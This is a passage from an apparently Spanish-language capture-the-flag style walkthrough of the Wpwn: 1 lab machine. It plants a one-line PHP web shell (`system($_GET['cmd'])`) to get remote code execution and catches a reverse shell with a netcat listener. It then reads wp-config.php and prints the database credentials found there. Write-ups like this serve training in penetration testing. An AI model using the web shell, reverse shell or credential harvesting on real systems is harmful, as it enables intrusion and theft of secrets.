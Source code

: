 Modificamos el archivo `test.txt` para que mediante el método `GET` podamos ejecutar comandos con el parámetro `cmd`

```bash
❯ cat test.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: test.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <pre>system($_GET['cmd'])</pre>
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Confirmamos que tenemos capacidad de RCE

<img src="/assets/VH/Wpwn-DMV/rce.png">

En este punto sólo nos queda ponernos en escucha en el puerto 443 y ejecutar onliner para entablar una reverse shell y ganar acceso a la máquina

<img src="/assets/VH/Wpwn-DMV/shell.png">

```bash
❯ sudo nc -nlvp 443
[sudo] password for yorch: 
listening on [any] 443 ...
connect to [192.168.1.148] from (UNKNOWN) [192.168.1.141] 59106
whoami
www-data
```

### Movimiento Lateral (Wpwn: 1)

* * *

Comenzamos con la anumeración del sistema. En la ruta `/var/www/html/wordpress` vemos un archivo `wp-config.php`. Listamos su contenido y obtenemos unas credenciales para `MySQL`

```bash
www-data@wpwn:/var/www/html/wordpress$ cat wp-config.php
.
.
.
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
```